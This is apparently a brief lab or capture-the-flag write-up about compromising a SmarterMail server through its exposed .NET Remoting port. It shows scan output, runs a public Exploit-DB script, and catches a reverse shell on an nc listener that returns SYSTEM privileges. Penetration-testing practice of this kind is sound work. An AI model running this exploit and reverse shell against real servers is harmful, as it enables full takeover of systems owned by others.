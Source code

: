 # SmarterMail + .Net Remote

### Initial Detection:

```
9998/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Wed, 13 Jul 2022 16:16:02 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 9D7294CAAB5C2DF4CD916F53653714D5
17001/tcp open  remoting      syn-ack ttl 127 MS .NET Remoting services

```

Notice port 17001 running the .NET Remoting Endpoint.&#x20;

{% embed url="https://www.exploit-db.com/exploits/49216" %}

This is what we needed for the exploit to work.&#x20;

Modify our exploit to our listener and our ip.&#x20;

```
python3 /usr/share/exploitdb/exploits/windows/remote/49216.py

##OUR KALI
╰─ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [192.168.49.105] from (UNKNOWN) [192.168.105.65] 49849
whoami
nt authority\system

```
